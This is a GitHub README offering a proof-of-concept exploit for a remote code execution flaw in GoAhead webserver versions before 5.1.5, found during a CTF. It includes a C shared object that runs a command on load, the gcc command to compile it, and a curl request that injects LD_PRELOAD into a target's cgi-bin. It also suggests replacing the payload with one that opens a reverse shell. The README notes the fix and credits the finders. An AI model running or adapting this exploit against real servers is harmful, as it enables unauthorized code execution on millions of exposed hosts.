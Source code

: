 # Goahead webserver (pre v5.1.5) RCE PoC

A recent bug in Goahead Webserver was discovered by [William Bowling](https://twitter.com/wcbowling) which leads to RCE on the exploited server.

The issue exists prior to version 5.1.5 which, according to [Shodan covers around 2.8mio servers on the internet](https://www.shodan.io/search?query=goahead). 

The RCE is caused by the the fact that if the file upload filter is enabled, then the user can upload files and at the same time set user form variabled. 

These variabled ends up as being OS environment variables. This is normally not a problem, as in normal form upload cases, the env variables will get prefixed with CGI_ (default). If, however the file upload filter is enabled, then an error in the code causes this prefix to be left out = instant RCE via env variables + file. 


## Creating simple shared object 
The following will just invoke whoami command on the remote server but could be anything really:
```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    system("whoami");
}
```
Compile with:
```Bash
gcc -fPIC -shared -o poc.so poc.c -nostartfiles
```
## Exploiting the server
now we are ready to send our file to the server. This can be done using curl:
```bash
curl -X POST  http://[TARGET]/cgi-bin/ -F "LD_PRELOAD=/proc/self/fd/0" -F file='@poc.so;encoder=base64'
```
change `[TARGET]` to the domain/ip of the target server. 

You will probably see an error from the server, but try with another shared object that e.g. calls back to you with a nice shell 👍

## Fix
A fix is out with goahead 5.1.5 here: [https://github.com/embedthis/goahead/issues/305]

## Credits 
The issue was initially found by Willian Bowling from Perfect Blue CTF team. 
During [pbCTF 2021](https://ctf.perfect.blue/), a challange was the, at that time, existing version (5.1.4) of goahead server, and togetther with [Kalmarunionen CTF Team](https://kalmarunionen.dk) we came across the same 0day issue in the code (yet to be disclosed to the authors). 
